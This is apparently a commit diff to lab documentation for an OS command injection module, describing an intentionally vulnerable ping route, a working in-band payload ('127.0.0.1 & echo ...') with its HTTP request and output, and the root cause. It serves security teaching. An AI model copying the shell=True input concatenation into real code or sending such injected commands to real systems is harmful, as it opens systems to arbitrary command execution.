

Before and after one commit to Aditirakesh/Cyber-sec, a Markdown page: docs/M3_cmdi.md, the part around one of its changes. Shown at 91% size. GitHub-like rendering; pictures changed too: docs/screenshots/M3_cmdi_vuln_exploit.png (added); blank space fills up the shorter version.

Commit message:
feat: add OS command injection module (in-band) with fixed route and docs

````diff
--- a/docs/M3_cmdi.md
+++ b/docs/M3_cmdi.md
@@ -1,12 +1,39 @@
 # M3_cmdi
 
+## Vulnerability and Variant
+OS Command Injection, In-band (classic) variant. The application builds an operating system command from user input and returns the command's output in the same HTTP response, so the attacker can read the result directly on the page. The vulnerable route `/cmdi/vuln/` is a network ping tool. The fixed route `/cmdi/fixed/` offers the same feature with mitigation applied.
+
+
 ## (a) Vulnerable implementation (file + function)
-TODO
+- **File:** `modules/cmdi.py`
+- **Functions:** `vuln_post()` and `execute_ping_vuln(host)`
+- **Input Entry Point:** User input enters via the `host` form parameter (`request.form.get("host", "")`). The unvalidated input string is concatenated directly into the shell command string `f"ping -n 1 -w 1000 {host}"` and executed using `subprocess.run(command, shell=True, ...)`.
 
 ## (b) Working exploit (exact payload / request)
-TODO
+- **Payload:** `127.0.0.1 & echo CMDI_PROOF_7F9D2A`
+- **HTTP Request:**
+  ```http
+  POST /cmdi/vuln/ HTTP/1.1
+  Host: 127.0.0.1:5000
+  Content-Type: application/x-www-form-urlencoded
+
+  host=127.0.0.1+%26+echo+CMDI_PROOF_7F9D2A
+  ```
+- **Observed Output:** The response terminal block displays the single ping reply statistics followed immediately by the executed echo command output:
+  ```text
+  Pinging 127.0.0.1 with 32 bytes of data:
+  Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
+
+  Ping statistics for 127.0.0.1:
+      Packets: Sent = 1, Received = 1, Lost = 0 (0% loss),
+  Approximate round trip times in milli-seconds:
+      Minimum = 0ms, Maximum = 0ms, Average = 0ms
+  CMDI_PROOF_7F9D2A
+  ```
+![exploit](screenshots/M3_cmdi_vuln_exploit.png)
+
 
 ## (c) Root cause (1-2 lines)
-TODO
+Unsanitized user input is directly concatenated into a shell command string executed with `shell=True`, allowing Windows `cmd.exe` command separators (`&`) to chain and execute arbitrary secondary operating system commands.
 
 ## (d) Mitigation implemented (+ screenshot of blocked attempt)
````
Also changed, not shown: other parts of docs/M3_cmdi.md (+15 -2 lines), docs/screenshots/M3_cmdi_blocked.png (added), docs/screenshots/M3_cmdi_fixed_baseline.png (added), 4 other files.
